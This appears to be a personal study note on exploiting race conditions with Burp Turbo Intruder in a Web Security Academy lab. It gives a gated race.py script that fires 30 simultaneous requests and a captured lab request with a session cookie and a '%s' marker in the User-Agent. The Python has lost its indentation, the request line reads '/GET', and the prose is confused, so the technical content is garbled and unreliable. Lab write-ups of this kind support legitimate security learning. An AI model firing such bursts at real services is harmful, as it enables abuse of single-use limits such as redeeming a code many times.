

# Race Condition


### what is race condition?

a vulnerability that if you recognize a tips service process each times per mili-second per one tip then the entered tip was expired 

now what if we send request to intruder and use the tip for each time?

honestly the intruder is not much can do so we must install turbo intruder.

so after installing turbo intruder we need authorize request to turbo intruder to stating attack



1. select [race.py](http://race.py) to identifying payload way.
2. use **`%s` .**
3. so use `**%s**` to identify to burp turbo intruder, when you do this actually you are identifying to T intruder this is the prime request to attacking and pen-testing race condition.
4. use `**%s**` in request not the code → in user agent

also the race condition typical bug its beneath business logic

the [race.py](http://race.py) code:

```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
***concurrentConnections=30,
requestsPerConnection=20,***
pipeline=False
)
# the 'gate' argument blocks the final byte of each request until openGate is invoked
for i in range(30):
    engine.queue(target.req, target.baseInput, gate='race1')

# wait until every 'race1' tagged request is ready
# then send the final byte of each request
# (this method is non-blocking, just like queue)
engine.openGate('race1')

***engine.complete(timeout=60)***
def handleResponse(req, interesting):
table.add(req)
```

put `*%s*` in user-agent in request 

the request:

```jsx

/GET /academyLabHeader HTTP/1.1
Host: [0a62006d0305c03c8281e31600a800af.web-security-academy.net](http://0a62006d0305c03c8281e31600a800af.web-security-academy.net/)
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0*`%s`*
Accept: *
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Sec-WebSocket-Version: 13
Origin: [https://0a62006d0305c03c8281e31600a800af.web-security-academy.net](https://0a62006d0305c03c8281e31600a800af.web-security-academy.net/)
Sec-WebSocket-Key: svUA5KmP2SX9iJ8fmA13qQ==
Connection: keep-alive, Upgrade
Cookie: session=JY6P1p6JbbMbht1vIRwsbWbJcEIXNPwk
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: websocket
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket
```
